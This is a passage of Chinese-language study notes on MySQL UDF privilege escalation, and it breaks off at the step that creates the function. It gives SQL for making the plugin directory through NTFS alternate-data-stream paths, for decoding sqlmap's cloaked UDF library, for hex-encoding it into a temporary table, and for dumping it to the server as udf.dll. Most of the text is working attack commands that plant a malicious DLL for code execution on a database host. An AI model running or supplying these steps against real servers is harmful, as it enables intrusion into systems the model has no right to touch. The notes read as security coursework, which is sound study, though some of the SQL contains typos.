 

注意

如该目录不存在，则需要创建

select @@basedir;

select 'It is dll' into dumpfile 'C:\\ProgramFile\\MYSQL路径\\lib::$INDEX_ALLOCATION';

select 'It is dll' into dumpfile 'C:\\ProgramFile\\MYSQL路径\\lib\\plugin::$INDEX_ALLOCATION';

![image](004_第四周—数据库系统功能相关学习/Image_046-1567178982005.png)



2、上传udf



![image](004_第四周—数据库系统功能相关学习/Image_047-1567178982005.jpg)

sqlmap中的udf需要解码

`sqlmap/extra/cloak/cloak.py -d -i udf路径文件`



将udf文件进行十六进制编码，然后创建一张临时表，插入udf数据

```
crate table temp(data blob);
insert into temp(data)values((convert($binaryCode_udf_data,char))));

```



注意

对udf进行十六进制编码，可以首先在本地创建临时表，利用hex()函数进行编码导入，然后再直接导出

```
create table temp_test(data blob);

insert into temp_test(data) values(hex(load_file('udf路径文件'))); select data from temp_test into dumpfile 'udf路径文件';
```



3、导出udf

`select data from temp into dumpfile '路径\\plugin\udf.dll';`

` drop table temp;`



4、创建函数
